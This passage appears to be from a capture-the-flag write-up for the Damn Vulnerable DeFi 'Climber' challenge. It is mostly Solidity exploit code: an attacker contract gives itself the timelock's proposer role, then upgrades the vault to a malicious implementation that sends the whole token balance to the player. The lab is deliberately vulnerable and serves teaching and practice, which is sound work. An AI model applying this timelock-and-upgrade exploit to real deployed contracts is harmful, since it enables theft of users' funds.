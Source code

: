 ```solidity
contract AttackerSchedule {
  address timelockAddress;
  bytes payload;

  constructor(address _timelockAddress) {
    timelockAddress = _timelockAddress;
  }

  function setSchedule() external {
    (bool success,) = timelockAddress.call(payload);
      success;
  }

  function setPayload(bytes memory _payload) external {
    payload = _payload;
  }
}
```

```solidity
targets[0] = address(timelock);
values[0] = 0;
dataElements[0] = abi.encodeWithSignature(
  "grantRole(bytes32,address)",
  PROPOSER_ROLE,
  address(attackerSchedule)
);
```

* Then, we upgrade the `ClimberVault` instance by an instance of `AttackerVault`.

```solidity
contract AttackerVault is UUPSUpgradeable {
  function initialize(address tokenAddress, address playerAddress) public {
    DamnValuableToken token = DamnValuableToken(tokenAddress);
    uint256 balance = token.balanceOf(address(this));

    DamnValuableToken(tokenAddress).transfer(playerAddress, balance);
  }

  // Function required by the interface.
  function _authorizeUpgrade(address newImplementation) internal override {}
}
```

```solidity
targets[1] = address(level.vault());
values[1] = 0;
dataElements[1] = abi.encodeWithSignature(
  "upgradeToAndCall(address,bytes)",
  address(attackerVault),
  abi.encodeWithSignature(
    "initialize(address,address)",
    address(level.token()),
    level.playerAddress()
  )
);
```
